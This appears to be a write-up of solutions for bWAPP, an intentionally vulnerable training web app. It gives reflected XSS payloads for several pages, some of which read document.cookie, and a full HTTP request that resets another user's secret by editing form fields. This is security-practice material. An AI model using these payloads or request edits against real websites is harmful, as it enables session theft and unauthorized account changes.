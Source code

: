 # A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(document.cookie)</script>
```

### XSS - Reflected (POST)

xss_post.php
```
<script>alert(document.cookie)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(0)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(0)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src="#" onerror="alert(1)"&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(0)</script></html>
```

# A4 - Insecure Direct Object References

### Insecure DOR (Change Secret)
Use Burp to unhide hidden fields or intercept POST param.  

### Insecure DOR (Reset Secret)
Change 'login' and 'secret' field to arbitrary values.
```
POST /bWAPP/xxe-2.php HTTP/1.1
Host: bepp:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://bepp:8088/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=0
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
```